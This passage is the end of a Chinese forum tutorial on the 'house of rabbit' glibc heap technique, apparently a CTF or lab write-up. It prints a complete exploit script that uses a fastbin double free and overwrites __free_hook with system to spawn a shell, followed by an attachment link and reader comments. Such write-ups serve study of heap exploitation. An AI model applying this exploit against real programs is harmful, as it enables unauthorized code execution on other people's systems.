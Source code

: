 最后执行就可以获得 shell 了

![](https://static.hack1s.fun/images/2021/12/11/image-20211211200225548.png)

最终完整的 exploit

```
very_big = malloc(0x5fff8,'bbbig')
free(very_big)
very_big = malloc(0x5fff8,'bbbig')

fast_A = malloc(0x18, "A"*8)
fast_B = malloc(0x18, "B"*8)

free(fast_A)
free(fast_B)
free(fast_A) 

malloc(0x18,p64(elf.sym.user))
large = malloc(0x88,'bbbb')
free(large)

amend_age(0x80001)
malloc(0x80008,'bbb')

distance = libc.sym.__free_hook-0x20 - elf.sym.user
print("distance %s" % hex(distance))

amend_age(distance+0x29)

binsh = malloc(distance,"/bin/sh\x00")
malloc(0x18, p64(0)+p64(libc.sym.system))

free(binsh)

```

![](https://static.52pojie.cn/static/image/filetype/zip.gif)

[house_of_rabbit.zip](forum.php?mod=attachment&aid=MjM1NjE4OXw4NzlkZTRmMnwxNjM5MzExNTI5fDIxMzQzMXwxNTU5ODkw)

2021-12-11 20:24 上传

点击文件名下载附件

下载积分: 吾爱币 -1 CB  

6.23 KB, 下载次数: 2, 下载积分: 吾爱币 -1 CB ![](https://avatar.52pojie.cn/images/noavatar_middle.gif) 讲得很详细，学习了！![](https://static.52pojie.cn/static/image/smiley/default/lol.gif)![](https://avatar.52pojie.cn/images/noavatar_middle.gif)BBridgeW 又过来学习了，支持一下。![](https://avatar.52pojie.cn/images/noavatar_middle.gif)tbloy 初学 Linux，认真地阅读了文章的每段话、每个字，受益匪浅。还有很长的路要走，加油！